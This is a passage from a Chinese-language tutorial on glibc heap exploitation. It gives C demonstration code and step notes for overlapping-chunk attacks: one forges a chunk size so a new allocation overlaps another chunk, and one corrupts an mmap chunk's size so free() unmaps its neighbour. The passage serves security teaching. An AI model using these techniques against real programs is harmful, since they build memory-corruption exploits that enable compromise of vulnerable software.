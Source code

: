 ```c
    memset(p3,'C',real_size_p3);
    memset(p4,'D',real_size_p4);
    memset(p5,'E',real_size_p5);

    free(p4);

    // 2
    *(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; //<--- BUG HERE 

    free(p2);

    // 3
    p6 = malloc(2000);
    real_size_p6 = malloc_usable_size(p6);

    // 4
    memset(p6,'F',1500);
```

 1. 分配了5块内存，并用不同的字符填充内存块。最后释放p4(这一步不做也没影响)
 2. 伪装一个chunk size, 塞到p2的chunk size位置，让系统认为p2的chunk size 有size(p2+p3)那么大；释放p2。
 3. 分配了一块size(p2+p3)大小的内存给p6，覆盖了p3的内存
 4. 填充p6的数据，导致p3数据被修改

## mmap_overlapping_chunks

如果malloc的参数大小超过了`mp_.mmap_threshold`，系统就会通过mmap来分配内存，由munmap来释放内存返回给kernel。通过mmap分配的内存的元数据中，m位被置为1，代表是mmap分配的。

Mmap chunk的prev_size代表mmap chunk的剩余空间，而不是下一个块的大小。并且，chunk被释放时也不会使用到fd和bk指针，因为它不会被放回bins中。

这里描述的也是覆盖chunk的攻击，只不过这里的chunk是通过mmap来分配的。

```c
int main(){
    int* ptr1 = malloc(0x10);

    // 1
    long long* top_ptr = malloc(0x100000);
    printf("The first mmap chunk goes directly above LibC: %p\n",top_ptr);

    // After this, all chunks are allocated downwards in memory towards the heap.
    long long* mmap_chunk_2 = malloc(0x100000);
    printf("The second mmap chunk goes below LibC: %p\n", mmap_chunk_2);

    long long* mmap_chunk_3 = malloc(0x100000);
    printf("The third mmap chunk goes below the second mmap chunk: %p\n", mmap_chunk_3);

    // 2
    // Vulnerability!!! This could be triggered by an improper index or a buffer overflow from a chunk further below.
    // Additionally, this same attack can be used with the prev_size instead of the size.
    mmap_chunk_3[-1] = (0xFFFFFFFFFD & mmap_chunk_3[-1]) + (0xFFFFFFFFFD & mmap_chunk_2[-1]) | 2;
    printf("New size of third mmap chunk: 0x%llx\n", mmap_chunk_3[-1]);
    printf("Free the third mmap chunk, which munmaps the second and third chunks\n\n");

   
    // Munmaps both the second and third pointers
    free(mmap_chunk_3); 

    /* 
    Would crash, if on the following:
    mmap_chunk_2[0] = 0xdeadbeef;
    This is because the memory would not be allocated to the current program.
```